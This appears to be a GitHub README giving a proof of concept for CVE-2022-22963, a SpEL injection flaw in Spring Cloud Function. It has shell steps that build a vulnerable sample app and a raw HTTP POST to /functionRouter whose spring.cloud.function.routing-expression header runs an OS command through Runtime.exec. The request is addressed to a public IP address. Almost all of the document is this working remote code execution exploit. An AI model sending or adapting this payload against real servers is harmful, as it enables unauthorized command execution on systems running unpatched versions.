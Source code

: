 # CVE-2022-22963

> Sring Cloud Function Spel Inject

## Build

> [hktalent/spring-spel-0day-poc: spring-cloud / spring-cloud-function,spring.cloud.function.routing-expression,RCE,0day,0-day,POC,EXP](https://github.com/hktalent/spring-spel-0day-poc)

```bash
wget https://github.com/spring-cloud/spring-cloud-function/archive/refs/tags/v3.2.3.zip
unzip v3.2.3.zip
cd spring-cloud-function-3.2.3
cd spring-cloud-function-samples/function-sample-pojo
mvn package
java -jar ./target/function-sample-pojo-2.0.0.RELEASE.jar
curl 127.0.0.1:8080
```

## Poc

```http
POST /functionRouter HTTP/1.1
Host: 47.98.109.141:48080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/1")
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

123
```